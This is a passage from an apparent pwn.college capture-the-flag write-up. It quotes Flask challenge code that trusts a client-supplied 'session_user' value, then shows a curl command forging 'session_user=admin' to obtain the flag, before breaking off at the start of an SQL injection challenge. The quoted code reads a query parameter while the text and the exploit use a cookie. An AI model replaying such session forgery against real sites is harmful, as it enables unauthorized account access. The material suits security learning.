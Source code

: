 ```py title="/challenge/server" showLineNumbers
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
    """

app.secret_key = os.urandom(8)
app.config['SERVER_NAME'] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

This challenge checks if we have provided the correct credentials for the `admin` user.
After successful login, the app redirects with:

```py title="/challenge/server" showLineNumbers
return redirect(f"/?session_user={username}")
```

Then in the GET route, it uses:

```py title="/challenge/server" showLineNumbers
username = request.args.get("session_user")
if username == "admin":
    show_flag()
```

This blindly trusts the user-controlled `session_user` cookie with no validation.
This insecure session handling causes IDOR.

### IDOR

```
hacker@web-security~authentication-bypass-2:/$ curl --cookie "session_user=admin" "challenge.localhost:80"
<html><body>Hello, admin!<br>Here is your flag: pwn.college{8k0g9-nWoB8OdGEMFi2uFNSnzpO.dJzN1YDL4ITM0EzW}

        <hr>
        <form method=post>
        User:<input type=text name=username>Pass:<input type=text name=password><input type=submit value=Submit>
        </form>
        </body></html>
```

&nbsp;

## SQLi 1

### Source code
```py title="/challenge/server" showLineNumbers
#!/opt/pwn.college/python

import random
import flask
import os

app = flask.Flask(__name__)


import sqlite3
import tempfile


class TemporaryDB:
```